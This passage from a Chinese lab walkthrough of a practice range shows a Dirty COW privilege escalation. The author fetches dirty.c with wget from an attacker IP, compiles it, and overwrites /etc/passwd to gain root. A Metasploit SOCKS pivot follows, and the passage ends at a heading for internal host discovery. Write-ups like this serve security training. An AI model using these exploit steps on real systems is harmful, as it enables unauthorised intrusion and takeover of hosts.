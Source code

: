尝试一下脏牛
![](https://img.l1uyun.one/红日靶场3_image_13.png)

上传.c文件,将文件里面的用户名改成root
```bash
[wwwuser@localhost tmp]$ wget 192.168.3.100/dirty.c
--2019-10-06 22:57:45--  http://192.168.3.100/dirty.c
Connecting to 192.168.3.100:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4807 (4.7K) [text/x-csrc]
Saving to: “dirty.c”

100%[================================================>] 4,807       --.-K/s   in 0s      

2019-10-06 22:57:45 (11.1 MB/s) - “dirty.c” saved [4807/4807]

[wwwuser@localhost tmp]$ gcc -pthread dirty.c -o dirty -lcrypt
[wwwuser@localhost tmp]$ ls -al ./dirty
-rwxrwxr-x. 1 wwwuser wwwuser 12056 Oct  6 22:57 ./dirty
[wwwuser@localhost tmp]$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
root:roNJMEIcMPy4.:0:0:pwned:/root:/bin/bash

mmap: 7f6fb884c000
[wwwuser@localhost tmp]$ su root
Password: 
[root@localhost tmp]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
拿下root,将shell传到msf中,[msfvenom](https://www.revshells.com)
![](https://img.l1uyun.one/红日靶场3_image_14.png)

### 搭建socks隧道
参考之前在红日1里面的笔记[红日靶场1-win域](红日靶场1-win域.md###搭建socks隧道)
```
run post/multi/manage/autoroute
background
use auxiliary/server/socks_proxy
run
使用jobs即可查看
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy

```
## 内网
### 内网存活探测
